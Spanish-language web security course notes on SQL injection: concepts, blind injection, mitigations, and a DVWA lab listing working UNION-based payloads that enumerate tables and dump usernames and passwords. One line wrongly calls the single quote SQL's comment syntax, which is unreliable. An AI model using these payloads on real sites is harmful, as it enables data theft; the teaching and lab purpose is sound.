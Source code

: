 #### SQL Injection

- Objetivo: Aprovechar conexiones a bases de datos desde aplicaciones web no securizadas para permitir a un atacante la ejecución de comandos directamente en la base de datos.
- Ejemplo:
    - SELECT * from Usuarios WHERE usuario=VARIABLE && clave=VARIABLE -> SELECT * from Usuarios WHERE usuario=admin && clave=1 OR 1=1
- Entorno explotable:
    - Fallo de comprobación de parámetros de entrada -> cualquier valor que venga del cliente (POST, GET, parámetros funciones JS, valores cabeceras HTTP o datos de las cookies).
    - Uso de parámetros (no comprobados) en la construcción de llamadas a BBDD.
    - Construcción no fiable de sentencias -> Concatenación de cadenas de caracteres
- ¿Cómo podemos saber si una web es susceptible a este ataque? Intentando inyectar una comilla simple ' que es la manera de escribir comentarios en el lenguage de SQL. Si da error la página es que es susceptible. 
- Límites de explotación:
    - Las funcionalidades del SGBD
    - Los privilegios de la cuenta que accede a los datos
    - El conocimiento del atacante sobre el SGBD. 
- Tipo de SQL Injection: Blind SQL Injection
    - Ataque que consigue que los comandos se ejecuten sin ver los resultados.
    - Obtenemos información mediante inferencias, de tal forma que debemos de detectar cambios según los parámetros introducidos. Uso de lógica binaria: True y False. 
        - Ejemplo: Si el usuario admin existe para 5 segundos. No nos va a mostrar nada pero si detectamos que se ha detenido esos 5 segundos es que el usuario admin existe. 
- Solución
    - Comprobación de TODOS los datos que vengan desde el usuario.
    - Uso de consultas precompiladas en la BBDD.
    - Control de todos los errores realizando un tratamiento seguro del mismo, sin dar información.
    - Uso de funciones por parte del servidor para securizar: mysqli_real_escape_string y filter_input.  


### Tema 4.- Fallos de seguridad en mi web - Parte II

Índice de esta sesión:
1. SQLi: SQL Injection (manual y sqlmap)
2. RCE: Remoce Code Execution
3. URL Bruteforcing: DirBuster, GoBuster...

#### SQL Injection

Al igual que en la sesión anterior para hacer las pruebas vamos a utilizar la plataforma DVWA, en este caso la pestaña SQL Injection. De nuevo, recordamos que la manera más sencilla de ver si un sitio web es susceptible a un ataque de este tipo es insertar una comilla y ver si sale un error o no dado que si introducimos `SELECT user_name FROM users WHERE user_id='''` se queda una comilla suelta y da error.

Ejemplos de ataques:
- En todos ellos la consulta que se está haciendo es `SELECT first_name, last_name FROM users WHERE user_id='$input';`. Los siguientes ataques consistirán en modificar el payload del ataque (en nuestro caso lo que insertamos en $input).
- Mostrar todos los usuarios: `1' OR '1'='1'`
- Mostrar los campos de los usuarios (en este caso los campos 1 y 2): `' AND 1=0 UNION SELECT 1,2 -- -`. El hecho de que esto funcione nos indica además que podemos concatenar instrucciones SQL.
- Obtener un listado de tablas de la BBDD: `' AND 1=0 UNION ALL SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database() -- -`
- Campos de la tabla user: `' AND 1=0 UNION ALL SELECT column_name,2 FROM information_schema.columns WHERE table_name='users' -- -`
- Listado de usuarios y contraseñas: `' AND 1=0 UNION ALL SELECT user, password FROM users -- -`
